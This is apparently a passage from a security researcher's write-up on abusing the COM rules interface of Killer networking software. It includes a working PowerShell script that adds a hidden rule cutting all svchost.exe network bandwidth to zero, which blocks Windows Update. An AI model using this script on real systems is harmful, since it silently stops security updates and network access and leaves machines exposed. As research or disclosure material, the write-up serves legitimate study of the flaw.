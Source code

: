 {% highlight C %}
interface IRulesManager : IDispatch {
    [id(0x00000001), helpstring("Clears all User Generated ProcessDomainRules")]
    HRESULT ClearProcessDomainRules();
    [id(0x00000002), helpstring("Gets the list of Processes")]
    HRESULT GetProcessList(...);
    [id(0x00000003), helpstring("Gets a Process Rule by Name")]
    HRESULT GetProcessRule(...);
    [id(0x00000004), helpstring("Sets a Process Rule by Name")]
    HRESULT SetProcessRule(...);
    [id(0x00000005), helpstring("Removes a User Generated Process Rule by Name")]
    HRESULT RemoveProcessRule(...);
    [id(0x00000006), helpstring("Gets the list of Domains")]
    HRESULT GetDomainList(...);
    [id(0x00000007), helpstring("Gets a Domain Rule by Name")]
    HRESULT GetDomainRule(...);
    [id(0x00000008), helpstring("Sets a Domain Rule by Name")]
    HRESULT SetDomainRule(...);
    [id(0x00000009), helpstring("Removes a User Generated Domain Rule by Name")]
    HRESULT RemoveDomainRule(...);
    [id(0x0000000a), helpstring("Gets the list or Recent Domains - regardless of whether they have a rule")]
    HRESULT GetRecentDomainList(.);
};
{% endhighlight %}

To disrupt Windows Update, we need to block network access for the service that implements it. On Windows 10, this service is called wuauserv and is hosted by svchost.exe. So, to disrupt Windows Update, we need to add a rule that matches svchost.exe process and set the rule's download and upload bandwidth limits to zero.

Killer matches processes based on their image pathnames. A pathname pattern may contain wildcard characters, for example, ".*\svchost.exe", which matches all svchost.exe processes regardless of their absolute path. Adding a blocking rule with the pattern ".*\svchost.exe" prevents any svchost.exe processes in the OS from accessing the network. A bit harsh, but it gets the job done. I believe that Killer offers more tailored rules, such as matching processes by loaded modules, but I haven't explored this feature. Since Killer identifies a process based solely on its pathname, renaming a random executable to svchost.exe will prevent all processes spawned from this file from accessing the network. The following PS script blocks svchost.exe from network access.

{% highlight powershell %}
$clsid = New-Object Guid '7972960B-C3EE-4794-B28B-75F9D36760E6'
$type = [Type]::GetTypeFromCLSID($clsid)
$object = [Activator]::CreateInstance($type)

$object.Initialize(5, 0, 0, "", "")
$factory = $object.GetFactoryManager()
$rman = $factory.GetRulesManager()
$rman.SetProcessRule("svchost.exe",      #bstrProcessName
                     ".*\\svchost\.exe", #bstrProcessRule
                     "UserDefined",      #bstrCategory
                     $true,              #bHidden
                     $false,             #bPinned
                     3,                  #lPriority
                     0,                  #lBandwidthUp
                     0)                  #lBandwidthDown
{% endhighlight %}

